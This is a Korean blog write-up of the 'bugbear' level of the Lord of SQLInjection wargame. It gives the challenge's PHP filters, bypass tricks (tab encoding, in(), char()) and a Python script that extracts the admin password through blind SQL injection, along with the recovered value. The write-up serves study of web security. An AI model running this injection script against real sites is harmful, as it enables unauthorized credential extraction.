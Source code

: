 ```yaml
---
layout: post
title: ! "[LOS] bugbear"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - bugbear
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![]({{ site.baseurl }}/assets/posts/los/bugbear.png)

`query : select id from prob_bugbear where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

bugbear 문제에서는 darknight문제와 비교하여 =,like,0x,공백이 추가 되었다.
다른 분들의 darknight 풀이를 보니 hex값을 이용하신 분들도 꽤 계셔서 0x 필터링이 생긴 것 같다.

1. 공백 -> %09
2. =,like -> in() 함수
3. 0x -> char() 함수

=과 like를 우회하기 위해 >,< 도 사용한다고 하여 < 를 이용해 패스워드의 길이를 구해보았다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_admin.png)

### 코드
```php
from requests import get
import string
from time import sleep


url ="https://los.eagle-jump.org/bugbear.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1||length(pw)<"+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1||id%09in(char(97,100,109,105,110))%26%26mid(pw,"+str(i)+",1)%09in(char("+str(a)+"))"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is "+result)
        print("\n")
```

저번 코드와 달라진 점이라면 길이를 구하는 부분과 char(~) 함수를 in() 으로 감싸준 것과 공백을 %09로 바꾼 것이다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_result.png)

결과에서 패스워드의 길이가 9로 나온 이유는 length(pw)<9 를 했을 때 Hello admin이 떴기 때문에 9가 뜬 것이다.
원래 패스워드의 길이는 8이다.
마찬가지로 위 결과에서 알파벳을 소문자로 바꿔주고 `?pw=735c2773` 를 해주면 된다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_clear.png)


### https://los.rubiya.kr 버전

![]({{ site.baseurl }}/assets/posts/los/bugbear_py_result.png)

![]({{ site.baseurl }}/assets/posts/los/bugbear_py_clear.png)
